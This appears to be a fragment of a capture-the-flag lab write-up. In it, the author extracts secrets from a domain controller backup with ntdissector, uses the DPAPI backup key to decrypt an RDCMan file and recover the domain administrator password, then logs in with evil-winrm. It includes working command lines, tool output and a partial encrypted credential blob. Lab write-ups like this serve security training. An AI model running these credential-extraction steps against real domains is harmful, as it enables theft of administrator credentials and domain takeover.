        <password>AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAABS0Gmx4U2k+............../XSIlS/pMf/DBn3EHb8xEha6u1f/CMguhQAAACVsld41QgTZXMtLDfgrswQaShAxQ==</password>

We all gonna use here [ntdissector](https://github.com/synacktiv/ntdissector) from synacktiv.

after install it we need to Active Directory folder before we installed from ssh.

inc5543_domaincontroller_backup/Active Directory

    ➜  Active Directory ls -la out 
    total 12
    drwxr-xr-x 3 root root 4096 Jul  4 22:56 .
    drwxr-xr-x 3 root root 4096 Jul  4 22:56 ..
    drwxr-xr-x 2 root root 4096 Jul  4 22:56 118a48dc41fce5ffea884c0793d4ac92
    ➜  118a48dc41fce5ffea884c0793d4ac92 ls
    domainDNS.json  group.json  secret.json  user.json

we just need pvk so lest copy this and save as dpapi.pvk

and then mimikatz will be usefull here but let use [rdgdec.py](https://github.com/tijldeneut/dpapilab-ng/blob/main/rdgdec.py)

    ➜  dpapilab-ng git:(main) python3 rdgdec.py "../jenkins.rdg" --sid="S-1-5-21-641890747-1618203462-755025521-1110" --masterkey="../Roaming/Microsoft/Protect/S-1-5-21-641890747-1618203462-755025521-1110" -k "../dpapi.pvk"

    [+] Profile:  KLENDATHU\administrator
        Username: administrator
        Domain:   KLENDATHU
        Password: <readacted>

AND BOOOOOOOOOMMMMMMMMMMMM!!

    evil-winrm -i dc1.klendathu.vl -u administrator -p <redacted>
